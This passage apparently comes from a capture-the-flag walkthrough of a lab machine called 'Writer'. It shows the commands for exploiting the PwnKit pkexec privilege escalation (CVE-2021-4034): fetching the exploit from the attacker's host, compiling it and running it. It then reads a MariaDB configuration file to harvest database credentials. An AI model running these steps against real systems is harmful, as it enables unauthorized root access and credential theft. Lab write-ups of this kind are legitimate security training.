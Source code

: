 
- CVE-2021-4034 (Pkexec Local Privilege Escalation)

```bash
wget https://github.com/ly4k/PwnKit/blob/main/PwnKit.c
python3 -m http.server
```

```bash
wget http://10.10.16.7/PwnKit.c
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
./PwnKit
```

## Post-exploitation (OPTION 2)

- Information Leakage

```bash
www-data@writer:/tmp$ cat /etc/mysql/mariadb.cnf    
```

```ruby
# The MariaDB configuration file
#
# The MariaDB/MySQL tools read configuration files in the following order:
# 1. "/etc/mysql/mariadb.cnf" (this file) to set global defaults,
# 2. "/etc/mysql/conf.d/*.cnf" to set global options.
# 3. "/etc/mysql/mariadb.conf.d/*.cnf" to set MariaDB-only options.
# 4. "~/.my.cnf" to set user-specific options.
#
# If the same option is defined multiple times, the last one will apply.
#
# One can use all long options that the program supports.
# Run program with --help to get a list of available options and with
# --print-defaults to see which it would actually understand and use.

#
# This group is read both both by the client and the server
# use it for options that affect everything
#
[client-server]

# Import all .cnf files from configuration directory
!includedir /etc/mysql/conf.d/
!includedir /etc/mysql/mariadb.conf.d/

[client]
database = dev
user = djangouser
password = DjangoSuperPassword
default-character-set = utf8
```

> Credenciales: djangouser:DjangoSuperPassword
